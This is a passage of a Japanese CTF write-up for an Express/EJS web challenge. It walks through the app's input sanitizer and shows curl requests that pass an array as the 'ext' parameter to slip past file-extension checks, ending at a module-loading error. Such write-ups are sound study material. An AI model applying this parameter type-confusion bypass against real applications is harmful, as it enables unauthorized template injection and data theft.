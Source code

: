 `utils.sanitize` の実装を `utils.js` で確認します。この関数は、どうやら文字列に `<`、`>`、`flag` のいずれかが含まれていれば `false` を返すようです。

EJS は、デフォルトでは `<%= 7*7 %>` のように `<` や `>` を使わなければ JavaScript コードの実行ができません。これによって EJS の機能を使えないようにしているのでしょう。

```javascript
const sanitize = (body)=>{
    reuslt = true
    tmp = body.toLowerCase()
    if(tmp.includes('<') || tmp.includes('>')) return false
    if(tmp.includes('flag')) return false
    
    return true
}
```

作成されたファイルにアクセスする方法を `app.js` で確認します。`/(ハッシュ値)/(ファイル名)` にアクセスすると `res.render` によってそのファイルをレンダリングされますが、ここでパラメータとしてフラグが与えられています。

```javascript
app.get('/:sandboxPath/:filename', authMiddleware, (req,res)=>{
    try {
        res.render(`sandbox/${req.params.sandboxPath}/${req.params.filename}`, {flag});
    } catch {
        res.status(404).send('Not found.');
    }
});
```

### EJS 以外を使う
前述のように、`<` や `>` が使えなければ、EJS のテンプレートはただのプレーンテキストでしかありません。なんとかして拡張子を `.ejs` 以外に変えて、EJS 以外のテンプレートエンジンが使えないでしょうか。

フォームの送信時に文字列かどうかチェックされていたのは `filename` と `contents` だけで、`ext` についてはチェックされていなかったことを思い出しましょう。

もし `ext` が配列であればどうでしょうか。`ext` に `.ejs` という文字列が含まれるかと、`ext` の長さが 4 であるかのチェックはそれぞれ `includes` というメソッドと `length` というプロパティを使っています。これらのメソッドやプロパティは `Array` も持っていますから、もし `ext` が配列であってもうまく動くはずです。

4 つの要素を持ち、そのうちのひとつが `.ejs` という文字列である配列を `ext` として投げてみましょう。試してみると、以下に示すように `hoge.ejs,a,b,c` というファイルが作成されました。これで `.ejs` 以外の拡張子でファイルの作成ができるようになりました。

```
$ curl http://localhost:8000
Found. Redirecting to 550a47c54a2c9d980a7b1ba202bebbbdbe37bd36954424d2c1d5d135bfd9f3cf
$ HASH=550a47c54a2c9d980a7b1ba202bebbbdbe37bd36954424d2c1d5d135bfd9f3cf
$ curl "http://localhost:8000/$HASH" -H "Content-Type: application/json" -d '{"filename":"hoge","contents":"fuga","ext":[".ejs","a","b","c"]}'
{"result":true,"path":"/550a47c54a2c9d980a7b1ba202bebbbdbe37bd36954424d2c1d5d135bfd9f3cf/hoge"}
$ docker exec b1 ls "views/sandbox/$HASH/"
hoge.ejs,a,b,c
index.ejs
```

生成されたファイルにアクセスしてみようとすると、`ejs,a,b,c` というモジュールを読み込もうとしたが見つけられなかったというエラーが表示されました。どういうことでしょうか。

```
$ curl "http://localhost:8000/$HASH/hoge.ejs,a,b,c"
Error: Cannot find module 'ejs,a,b,c'
Require stack:
- /app/node_modules/express/lib/view.js
- /app/node_modules/express/lib/application.js
- /app/node_modules/express/lib/express.js
- /app/node_modules/express/index.js
- /app/app.js
```
